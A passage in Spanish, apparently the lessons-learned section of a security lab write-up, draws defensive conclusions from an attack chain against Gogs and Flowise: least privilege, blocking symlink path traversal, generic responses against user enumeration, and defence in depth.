   Gogs se ejecutaba como `root`, lo que permitió que una vulnerabilidad de symlink en su API resultara en la toma total del sistema. Los servicios deben ejecutarse con el menor privilegio posible, utilizando usuarios dedicados sin acceso a archivos críticos del sistema.

7. **Los enlaces simbólicos pueden ser un vector de escalada crítico**  
   La vulnerabilidad CVE‑2025‑8110 en Gogs permitió escribir archivos arbitrarios a través de symlinks. Las aplicaciones que permiten la creación de archivos o la escritura en el sistema de archivos deben validar las rutas y bloquear el seguimiento de enlaces simbólicos fuera del directorio permitido.

8. **La exposición de información en APIs es un problema recurrente**  
   Tanto el panel de login como el endpoint de `forgot-password` de Flowise revelaban si un usuario existía o no. Esta exposición de información facilita la enumeración de usuarios y debe ser mitigada devolviendo respuestas genéricas en todos los casos.

9. **La cadena de vulnerabilidades amplifica el impacto**  
    Ninguna vulnerabilidad individual habría sido suficiente para comprometer el sistema. Fue la combinación de exposición de información → restablecimiento de contraseña → RCE → reutilización de credenciales → symlink RCE lo que permitió el compromiso total. La seguridad en profundidad es esencial para mitigar este tipo de cadenas de ataque.

